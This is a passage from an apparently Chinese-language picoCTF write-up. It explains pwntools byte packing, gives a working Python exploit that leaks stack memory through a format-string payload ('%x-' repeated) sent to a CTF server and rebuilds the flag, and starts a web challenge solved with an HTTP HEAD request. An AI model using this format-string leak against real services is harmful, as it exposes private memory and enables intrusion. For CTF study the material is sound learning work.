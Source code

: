 不過 **%** 出來的東西是16進位的資料然後有八位，不過偶不知到為隔膜是八位，因為書裡面的有十六位，不過如果要把這些數字轉成字串的話可以用 `pwntool` 裡面的 `p32()`，如果有十六位就用 `p64()` ，它還會幫忙把字串倒過來，好像是因為Linux是小頭端的關西，這裡有危機百科的[大頭端和小頭端](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F)。　

還有要注意的地方就是`pwntool` 的 `recvline` 回傳的資料是byte的型態所以要用`.decode()`才會變成字串ㄛ📫 `p32()`也是ㄛ🤭
```python=
from pwn import *

flag = b''
r = remote("mercury.picoctf.net", 33411)
r.sendlineafter("What would you like to do?\n", "1")
payload = "%x-" * 30
r.sendlineafter("What is your API token?\n", payload)
r.recvuntilS("Buying stonks with token:\n")
out = r.recvline().decode()
for d in out.split("-"):
    try:
        res = p32(int(d, 16))
        flag += res
    except Exception:
        pass
r.recvall()

print(flag)
```
應該會有答案跑出來😲😲

---


## 🌺GET aHEAD


- Category: Web Exploitation
- Score: 20

### 💁Description

Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:15931/



### 🙆Solution
先把網頁打開，然後它會長醬子🥺


| 兩個按鈕 |HTML |
| -------- | -------- |
| ![](https://i.imgur.com/qqo9NB7.png)     |![](https://i.imgur.com/40ZfnfP.png)|

可以看出來紅色的按紐是用 GET 方法，藍色的是用 POST ，然後偶就不會惹🤧　偶看惹 [rschauhan2199](https://ctftime.org/user/95909) 和 [abbas](https://ctftime.org/user/106830) 的Write🆙 原來題目 get aHEAD 的意思是**用HEAD方法請求**，可以用這些方法：
#### cURL
